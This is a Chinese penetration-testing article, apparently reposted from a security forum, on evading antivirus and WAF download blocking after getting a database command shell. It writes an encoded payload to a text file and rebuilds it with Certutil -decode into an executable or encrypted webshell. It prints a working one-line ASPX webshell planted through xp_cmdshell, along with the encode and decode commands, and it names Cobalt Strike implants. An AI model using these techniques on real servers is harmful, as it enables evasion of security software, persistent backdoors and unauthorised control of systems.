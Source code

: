 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/8930)

各位在渗透中是否遇见过这个问题：  
虽然有低权限命令 shell，如 mssql、postgres 等，执行下载总是各种无权限或者被 AV 杀，轻则无法继续渗透，重则弹出拦截消息，管理员上机后立马发现。  
本文将介绍一种使用 windows 自带工具进行编码，写入编码数据到 TXT 文本最后再解码的骚操作。  
**1. 场景**  
话不多说，例如这样场景：在数据库连接后或者 sqlmap 注入连接 os-shell 后可执行命令：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180309-0dcf42a6-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180309-0dcf42a6-49bd-1.png)  
其中包括杀软或某狗、某盾：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180322-1594c650-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180322-1594c650-49bd-1.png)  
此时下载文件的各种命令均被拦截：  
bitsadmin：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180332-1b9b3f98-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180332-1b9b3f98-49bd-1.png)  
certutil 证书：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180341-20c5e81a-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180341-20c5e81a-49bd-1.png)  
还会被杀软报警：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180356-29a77886-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180356-29a77886-49bd-1.png)  
powershell 也会被彻底封杀：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180408-30eab37e-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180408-30eab37e-49bd-1.png)  
尤其是某管家，拦截更彻底，根本没有倒计时自动消失（此时需要夸一下某大厂的报警提示倒计时功能）  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180418-36c7aa04-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180418-36c7aa04-49bd-1.png)  
而在这种环境下可在有权限写入的前提下尝试写入一句话木马：

```
xp_cmdshell 'echo  ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["bmfx"], "unsafe");%^>> D:\\WWW\\bmfx.aspx'
```

但也存在被某狗、WAF 杀掉的可能。

**2. 骚操作**  
此时，骚操作上场，windows 自带的证书下载，也就是上文使用但远程下载被拦截的 Certutil，还可用来对文件编码解码：  
本地：

```
Certutil -encode artifact.txt artifact.exe
或指定路径：
Certutil -encode d:\artifact.txt d:\artifact.exe


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180515-592f2dba-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180515-592f2dba-49bd-1.png)  
将 txt 文本使用 echo 命令：  
echo sfAFASFAsfasgasdf………>>d:\1.txt  
写入服务器后，进入 txt 所在目录执行解码（或直接指定物理目录文件）：

```
Certutil -decode art.txt art.exe
或：
Certutil -decode d:\art.txt d:\art.exe


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180530-621a135e-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180530-621a135e-49bd-1.png)  
后续可在命令中执行 exe 上线：

重点是：本地解码编码操作不会触发杀软拦截行为！此外，Certutil 支持将任意文件编码解码，除了 exe 还有 aspx、php、jsp 等（如加密免杀的 webshell，此处使用哥斯拉为例）：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180544-6a5da2a6-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180544-6a5da2a6-49bd-1.png)  
可在 web 站点写入文件后访问 txt 查看写入有无偏差：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180554-7046da16-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180554-7046da16-49bd-1.png)  
还有一点，本人亲测，编码后 txt 中的文本类似于生成的 shellcode，会自动换行显示，但本地替换换行符、自行拆分换行符，不改变内容的前提下，编码、解码前后的文件不会有任何影响。  
但是在 navicat 等数据库软件里操作的话还有一个限制，echo 的长度会提示不要过长：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201229180608-78bd1714-49bd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201229180608-78bd1714-49bd-1.png)  
此时就要看各位师傅们在 bypass WaF、AV 时如何减小体量了，一般 cs 的马 bypass 后会在 50k 左右，使用 sqlmap 的—os-shell 执行 echo 不会像 navicat 要求 128 字符那么短，但也有长度限制，具体各位可亲测。